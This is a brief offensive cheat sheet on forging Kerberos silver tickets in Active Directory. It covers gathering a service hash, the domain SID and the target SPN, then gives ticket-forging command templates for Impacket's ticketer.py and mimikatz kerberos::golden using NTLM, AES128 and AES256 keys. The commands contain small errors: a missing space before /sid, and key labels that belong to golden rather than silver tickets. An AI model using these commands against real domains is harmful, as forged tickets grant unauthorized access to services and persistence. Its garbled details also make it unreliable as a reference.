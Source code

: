 # Silver Tickets
- **PAC Disable**
1. SPN hash -- `iwr  -UseDefaultCredentials http://web04` --> Force！
2. Domain SID -- `Whoami /user`
3. Target SPN -- CN --> `Serviceclass/host:port/servicename`
## Impacket
```bash
 python3 ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>
- python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>
```
## mimikatz

AES 256 Key:
```powershell
 mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>
```

AES 128 Key:

```powershell
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>
```

NTLM:
```powershell
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>
```